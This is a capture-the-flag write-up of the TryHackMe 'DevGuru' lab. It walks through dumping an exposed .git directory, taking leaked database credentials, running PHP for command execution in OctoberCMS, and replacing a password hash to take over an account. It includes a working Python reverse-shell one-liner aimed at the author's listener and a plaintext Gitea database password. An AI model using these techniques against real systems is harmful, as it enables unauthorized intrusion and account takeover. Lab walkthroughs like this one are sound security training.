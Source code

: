 # TryHackMe-DevGuru

## NMAP

```
Nmap scan report for 10.10.172.205                                                                                                          [83/877]
Host is up (0.16s latency).                                                                                                                         
Not shown: 65532 closed ports                                                                                                                       
PORT     STATE SERVICE VERSION                                                                                                                      
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:                                                            
|   2048 2a:46:e8:2b:01:ff:57:58:7a:5f:25:a4:d6:f2:89:8e (RSA)                                                                                      
|   256 08:79:93:9c:e3:b4:a4:be:80:ad:61:9d:d3:88:d2:84 (ECDSA)
|_  256 9c:f9:88:d4:33:77:06:4e:d9:7c:39:17:3e:07:9c:bd (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru                                                 
| http-git: 
|   10.10.172.205:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
8585/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK                                                                                                                       [54/877]
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=f886af904a2de78a; Path=/; HttpOnly
|     Set-Cookie: _csrf=5bPJDT7tyJUhTZEjhejaOuL5wHU6MTYwNzE2ODk5ODQ5MDExOTg3MQ; Path=/; Expires=Sun, 06 Dec 2020 11:49:58 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 05 Dec 2020 11:49:58 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1"> 
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=f1edb5b66713a6a2; Path=/; HttpOnly
|     Set-Cookie: _csrf=5rcSOwMuyIXJxXduyRO14YPZQT06MTYwNzE2ODk5ODgzMzcyMzg5Mg; Path=/; Expires=Sun, 06 Dec 2020 11:49:58 GMT; HttpOnly
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1"> 
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/
submit.cgi?new-service :
```

## PORT 80

<img src="https://imgur.com/wkw4oBK.png"/>

We don't see anything interesting on the web page. Looking at the nmap results there's a `git` directory we find so let's visit that directory

<img src="https://imgur.com/mxuXtfl.png"/>

On visting find a page which tells us a reference to `master branch`

<img src="https://imgur.com/6ad0R7b.png"/>

So it seems that there is a github repository on the box , so let's try to dump the files. We can use a tool for that which is called `GitTools`

`https://github.com/internetwache/GitTools`

<img src="https://imgur.com/iAx6MrX.png"/>

After running the tool it took 22 minutes for me dump the `./git` directory

<img src="https://imgur.com/9zqh623.png"/>

<img src="https://imgur.com/OqxPrI9.png"/>

Now we cannot extract some useful data like this for that we have to use `Extractor` from GitTools

First move that dumped `./git` folder to a another folder then run the tool 

<img src="https://imgur.com/VxHorRk.png"/>

<img src="https://imgur.com/PLUyTT9.png"/>

As you can see it finds a bunch of files which makes our work way easier

Reading through the contents of `.htaccess` we find that there is a login page for database

<img src="https://imgur.com/OkZn47d.png"/>

<img src="https://imgur.com/Bl8k0Fl.png"/>

Going back to that extracted folder of `./git` we can find `config/database.php` which has credentials for mysql database

<img src="https://imgur.com/zgme3uj.png"/>

<img src="https://imgur.com/7rYHcwb.png"/>

And we can login ourself in , Great !

Now `Octobercms` has blocked extensions of `php` files , you could try changing the extensions to .php3,.php4,.php5,.phtml but it  won't work , what we can do is run php code on html pages 

`https://octobercms.com/forum/post/running-php-code-on-pages`

Here it tells how we can do that 

<img src="https://imgur.com/cH9gjcI.png"/>

<img src="https://imgur.com/1xJcMms.png"/>

<img src="https://imgur.com/s7NZiU3.png"/>

As we can see it does run php code so now we have to craft a php reverse shell to get onto the box,Let's test this for a simple `$_GET["command"]`

<img src="https://imgur.com/EoScBCY.png"/>

<img src="https://imgur.com/PKO3li5.png"/>

<img src="https://imgur.com/MpGFi2u.png"/>

And we can run system commands so only thing left to do is to setup a netcat listener and run a reverse shell command in that parameter.So I am going to use a python3 reverse shell because python3 is installed on the box

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.54.209",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<img src="https://imgur.com/qMkp8m8.png"/>

And we got a shell finally , sweet !!

Now we must enumerate the box , to do that transfer `linpeas` on the target box by python http server

<img src="https://imgur.com/ZSWBN92.png"/>

During the enumaration process we find some intersting backup files

<img src="https://imgur.com/kAw2XSu.png"/>

<img src="https://imgur.com/wbViaQ1.png"/>

Here we can see that there is another database for `gitea` which is running on port 8585,also we look at the bottom we'll find that we can use three hashing algorithms `bcrypt`,`pbkdf2` and `scrypt`

<img src="https://imgur.com/M6BTijb.png"/>

So let's login to the database like we did with `octoberdb`

<img src="https://imgur.com/TsNzClM.png"/>

Here I cloned the `frank` user but added a `bcrpyt` password for him because with `pbkdf2` it was not allowing me to login


```
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306                                      
NAME                = gitea
USER                = gitea                                                                                                                         
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m    
```


 
--------

Here we can find the password for `frank` but it's saved as bcrypt because of `$2$` at the beginning.It would be useless to try cracking the hash we can just add a user with the password encrypted with `bcrypt`

<img src="https://imgur.com/934ryCW.png"/>

Then if we try to login we can access the dashboard of `OctoberCMS`

<img src="https://imgur.com/fu0N4RP.png"/>

By going to `Settings` then `Event log` we can see there's an image